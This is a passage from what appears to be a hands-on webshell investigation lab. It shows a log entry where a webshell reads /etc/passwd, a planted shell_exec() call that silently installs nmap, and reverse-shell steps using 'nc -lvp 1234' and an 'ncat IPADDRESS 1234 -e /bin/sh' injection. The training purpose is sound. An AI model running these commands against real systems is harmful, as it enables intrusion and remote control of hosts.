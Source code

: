 ```
127.0.0.1 - - [17/Oct/2020:16:44:36 -0400] "GET /_.php?__=system&___=cat%20/etc/passwd HTTP/1.1" 200 1157 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0"**
```

### Commands within the php file:

So far, we have seen plenty of webshells that require an input in order
for a command to occur. However, this isn't always the case, there can be
shells that have a specific command that it will always run when it is
accessed, potentially causing a myriad of issues to occur.

Let us head back to our landing page and access the one link we have
ignored up to this point, the greeting page. When we click on this, it
takes a very long time for it to load, not only that all it contains is
a simple greeting. What could potentially be causing this? Let's head
over to the command line and see what is up. Open up `greeting.php`
and see what is inside.

<img src="media\image1.png" style="width:6.5in;height:2.25in" />

From the looks of it, the attackers put in a `shell_exec()` function!
What this does is performs a command given to it and runs it without
giving an input, so it was quietly downloading the application `nmap`
when requesting the webpage. Due to `www-admin` being a `sudo` user,
this command was able to be run just fine. However, what possible damage
can be caused by this?  
  
On our command line, run the command:

`nc -lvp 1234`
  
This will cause netcat to listen on that specific port until a
connection will try to be made. Now, let's go to the web browser and
head over to the `name.php` page. On this page we are going to be
using this command:

```
?name=ncat IPADDRESS 1234 -e /bin/sh
```

